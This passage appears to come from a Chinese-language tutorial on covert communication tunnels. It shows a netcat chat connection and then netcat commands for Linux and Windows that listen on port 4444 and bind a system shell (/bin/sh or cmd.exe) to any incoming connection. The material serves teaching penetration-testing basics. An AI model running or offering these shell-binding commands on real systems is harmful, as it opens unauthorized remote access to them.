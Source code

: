 ![](/assets/img/隐藏通信隧道基础知识/35.png)

在客户端对服务端的6666端口进行连接，就可以开始聊天了：

```
nc -nv 192.168.2.12 6666
```

![](/assets/img/隐藏通信隧道基础知识/36.png)

（8）获取正向shell

shell分为两种，一种是正向shell，另一种就是反向shell。

正向就是你去连接目标，反向就是目标来连接你。

在客户端输入命令，监听4444端口：

```
linux：
nc -lvp 4444 -e /bin/sh
windows：
nc.exe -lvp 4444 -e c:\windows\system32\cmd.exe
```